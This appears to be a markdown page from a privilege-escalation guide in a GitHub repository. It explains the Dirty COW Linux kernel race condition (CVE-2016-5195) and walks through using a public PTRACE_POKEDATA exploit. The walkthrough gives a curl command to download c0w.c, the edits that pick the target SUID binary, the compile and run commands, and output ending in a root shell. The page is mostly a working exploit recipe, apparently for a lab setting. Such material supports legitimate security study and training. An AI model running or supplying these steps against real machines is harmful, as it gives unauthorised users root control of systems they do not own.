

# Root privilege escalation - Method 3: Dirty cow (shellcode injection)

## Dirty COW (Copy-On-Write)

### Details

[](https://www.youtube.com/watch?v=kEsshExn7aE)

A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings.

The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016.

Impact

- An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
- This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.

### Exploit: shellcode injection into a SUID file using PTRACE_POKEDATA

| Link                                                                     | Usage | Description     | Family          |
| ------------------------------------------------------------------------ | ----- | --------------- | --------------- |
| [c0w.c](https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54) | ./c0w | SUID-based root | PTRACE_POKEDATA |

- This exploit is a `PTRACE_POKEDATA` variant of `CVE-2016-5195` (dirtycow vulnerability).
- It gives the user root by injecting shellcode into a SUID file.

### How to

```shell
# Download and compile the exploit
curl https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c > c0w.c
```

Edit c0w.c:

- (un)comment correct the correct payload (x64/x86).
- [optional] replace `char suid_binary[] = "/usr/bin/passwd";` with `/home/zaz/exploit_me`

Then compile `c0w.c`, execute it and execute the `suid_binary`

```
gcc -pthread c0w.c  -o c0w

./c0w
     (___)
     (o o)_____/
      @@ `     \
       \ ____, //home/zaz/exploit_me
       //    //
      ^^    ^^
  DirtyCow root privilege escalation
  Backing up /home/zaz/exploit_me to /tmp/bak
  mmap b7fd8000

  madvise 0

  ptrace 0

./exploit_me

# whoami
  root
```

or run:

```shell
./scripts/exploits/dirtycow_PTRACE_POKEDATA.sh
```

# DON'T FORGET TO RESTORE YOUR <suid_binary> AFTER RUNNING THE EXPLOIT!

mv /tmp/bak <suid_binary>

## Sources

### Vulnerability

- [Dirty Cow - Vulnerability Details](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)

### Exploit

- [A PTRACE_POKEDATA variant of CVE-2016-5195](https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54)
